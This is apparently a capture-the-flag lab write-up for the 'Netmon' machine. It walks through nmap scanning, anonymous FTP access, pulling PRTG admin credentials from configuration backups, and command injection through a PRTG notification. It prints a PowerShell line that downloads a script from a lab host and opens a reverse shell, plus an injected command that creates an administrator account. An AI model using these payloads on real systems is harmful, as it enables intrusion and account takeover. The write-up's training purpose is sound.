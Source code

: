 # netmon



## nmap

initial scan

PORT    STATE SERVICE      VERSION                                                                                                     
21/tcp  open  ftp          Microsoft ftpd                                                                                              
| ftp-anon: Anonymous FTP login allowed (FTP code 230)                                                                                 
| 02-03-19  12:18AM                 1024 .rnd                                                                                          
| 02-25-19  10:15PM       <DIR>          inetpub                                                                                       
| 07-16-16  09:18AM       <DIR>          PerfLogs                                                                                      
| 02-25-19  10:56PM       <DIR>          Program Files
| 02-03-19  12:28AM       <DIR>          Program Files (x86)
| 02-03-19  08:08AM       <DIR>          Users
|_02-25-19  11:49PM       <DIR>          Windows
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp  open  http         Indy httpd 18.1.37.13946 (Paessler PRTG bandwidth monitor)
|_http-server-header: PRTG/18.1.37.13946
| http-title: Welcome | PRTG Network Monitor (NETMON)
|_Requested resource was /index.htm
|_http-trane-info: Problem with XML parsing of /evox/about
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 9s, deviation: 0s, median: 8s
|_smb-os-discovery: ERROR: Script execution failed (use -d to debug)
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2020-08-21T13:37:09
|_  start_date: 2020-08-21T13:34:32



## http enumeration



- PRTG Network monitoring tool
- default credentials are not working
- so we will look where credentials for this tool through FTP





## ftp enumeration

- anonymous login is allowed
- directly logging into root folder of windows

![image-20200821192218003](netmon.assets/image-20200821192218003.png)



got user flag via ftp

![image-20200821192523777](netmon.assets/image-20200821192523777.png)



- Got a log files also but nothing useful

[default credentials are stored in](https://kb.paessler.com/en/topic/463-how-and-where-does-prtg-store-its-data)

![image-20200821204420055](netmon.assets/image-20200821204420055.png)





## post



#### ftp



```
%programdata%\paessler\PRTG Network Monitor
```

![image-20200821204627735](netmon.assets/image-20200821204627735.png)

- got some interesting file lets copy them and checkout



#### password grep and sed

```bash
cat "PTRG COnfiguration.dat" | grep -A 10 -B 10 -i password | sed 's/ //g'

cat PRTG\ Configuration.dat | grep -A 10 -B 10 -i JO3Y7LLK7IBKCMDN3DABSVAQO5MR5IDWF3MJLDOWSA====== | sed 's/ //g'
```



- password are encrypted in "PRTG Configuration.dat"

![image-20200821205706567](netmon.assets/image-20200821205706567.png)



- trying the same command with backup file

![image-20200821210534933](netmon.assets/image-20200821210534933.png)



#### credentials

username			prtgadmin

password			 ~~PrTg@dmin2018~~ 	PrTg@dmin2019

so the password is updated by a year because the password was 1 year old



#### login

![image-20200821211001936](netmon.assets/image-20200821211001936.png)

- we got a login now lets try to figure out a way to execute code



#### command execution

- we will go to notification
- edit one of the notification to execute program
- and test with a ping command command



![image-20200821211435239](netmon.assets/image-20200821211435239.png)



- we got a successfull ping we can execute code

![image-20200821211406723](netmon.assets/image-20200821211406723.png)



#### adding a user to administrator

- this did not work for some reason

~~powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.14.13:8000/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.13 -Port 7777~~



- ```
  ;net user Manish Password!123 /add;net localgroup administrators Manish /add;
  ```

  - dont forget to put a terminator before the code

- succesfully got the shell

![image-20200821214909739](netmon.assets/image-20200821214909739.png)